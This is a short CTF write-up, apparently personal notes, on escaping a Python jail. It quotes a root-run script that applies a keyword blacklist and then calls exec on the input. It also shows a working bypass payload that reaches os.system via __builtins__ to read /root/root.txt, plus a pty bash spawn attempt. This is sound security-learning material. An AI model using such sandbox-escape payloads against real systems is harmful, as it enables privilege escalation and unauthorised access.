 password123 - really. 

The best thing about this room - https://anee.me/escaping-python-jails-849c65cf306e and the bashoneliner

I really wanted to do this challenge, because this more fun than anything that has come before - without reading the link above:
```python
#! /usr/bin/python3
#-*- coding:utf-8 -*-
def main():
    print("Hi! Welcome to my world kaneki")
    print("========================================================================")
    print("What ? You gonna stand like a chicken ? fight me Kaneki")
    text = input('>>> ')
    for keyword in ['eval', 'exec', 'import', 'open', 'os', 'read', 'system', 'write']:
        if keyword in text:
            print("Do you think i will let you do this ??????")
            return;
    else:
        exec(text)
        print('No Kaneki you are so dead')
if __name__ == "__main__":
    main()
```

- We run a python file that has user context of root 
- not use any of the keywords and run bash
- [Hacktricks](https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes)

- Problems
	- importing alternatives...
	- Encoding require decoding 
- `imp.sys.modules["pty"].spawn("/bin/bash")` -  this errored out. as imp is not definedv - you have to import imp....
- We cant split the keywords and concatenate them together to form a payload in one line as at some point we hit requirement to .exec

```
impStr1 = "imp"; impStr2 = "ort"; impStr = f"{impStr1}{impStr2}"; impStr
```

30 minutes of googling and testing Ijust did not get to Builtin section on time.
```
__builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower()).__dict__['SYSTEM'.lower()]('cat /root/root.txt') 
```
Python allows us to use built in objects using the __builtins__ module. Lets check it out: [https://docs.python.org/3/library/builtins.html](https://docs.python.org/3/library/builtins.html)```